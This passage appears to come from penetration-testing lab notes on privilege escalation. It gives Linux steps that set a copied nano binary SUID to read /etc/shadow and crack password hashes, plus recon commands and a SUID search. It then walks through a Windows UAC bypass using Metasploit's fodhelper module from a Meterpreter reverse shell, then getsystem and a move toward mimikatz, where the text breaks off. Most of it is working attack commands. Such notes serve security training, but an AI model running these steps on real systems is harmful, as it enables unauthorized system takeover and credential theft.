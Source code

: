 	cp /bin/nano .
	chmod 4777 nano
	ls -la nano
	cd /home
	ls

open the shadow file from where we can copy the hash of any user:

	./nano -p /etc/shadow

copy any hash from the file and crack it using john the ripper or hashcat tools, to get the password of desired users.


	cat /etc/crontab	# view the running cronjobs
	ps -ef			# view current processes along with their PIDs
	find / -name "*.txt" -ls 2> /dev/null
	route -n 	# view the host/network names in numeric form
	find / -perm -4000 -ls 2> /dev/null		# view the SUID executable binaries



### Escalate Privileges by Bypassing UAC and Exploiting Sticky Keys

Sticky keys is a Windows accessibility feature that causes modifier keys to remain active, even after they are released. Sticky keys help users who have difficulty in pressing shortcut key combinations. They can be enabled by pressing Shift key for 5 times. Sticky keys also can be used to obtain unauthenticated, privileged access to the machine.


Open a reverse TCP shell on target Windows machine.

	meterpreter > sysinfo
	meterpreter > getuid
	
Try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine:

	meterpreter > background	# background the current session.
	search bypassuac	# get the list of bypassuac modules
	
Note: In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a bypassuac_fodhelper exploit.
	
	use exploit/windows/local/bypassuac_fodhelper
	set session 1
	show options
	set LHOST 10.10.1.13
	set TARGET 0 
	exploit
	
The BypassUAC exploit has successfully bypassed the UAC setting on the Windows 11 machine:
	
	meterpreter > getsystem -t 1	# elevate privileges
	meterpreter > getuid 	# now running with system privileges
	
Load mimikatz:
